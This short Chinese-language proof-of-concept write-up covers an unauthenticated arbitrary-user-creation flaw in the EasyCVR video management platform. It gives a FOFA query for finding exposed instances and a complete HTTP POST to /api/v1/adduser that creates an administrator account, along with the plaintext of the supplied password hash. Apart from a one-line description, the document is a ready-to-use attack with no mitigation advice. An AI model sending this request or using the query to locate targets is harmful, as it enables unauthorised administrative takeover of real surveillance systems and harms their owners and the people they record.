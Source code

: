 ## EasyCVR视频管理平台存在任意用户添加漏洞

  EasyCVR 视频管理平台是 TSINGSEE 青犀视频旗下一款软硬一体的产品，可提供多协议的设备接入、采集、AI 智能检测、处理、分发等服务，攻击者可通过`/api/v1/adduser`接口添加管理员账户



## fofa

```
app="EasyCVR-视频管理平台"
```
![image](https://github.com/user-attachments/assets/12861f9a-24d3-4393-830e-b493c4fb53c4)



## poc

```
POST /api/v1/adduser HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

name=admin888&username=admin888&password=0e7517141fb53f21ee439b355b5a1d0a&roleid=1
```

`0e7517141fb53f21ee439b355b5a1d0a` 明文为 `Admin@123`

![image-20240521200022702](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405212000756.png)

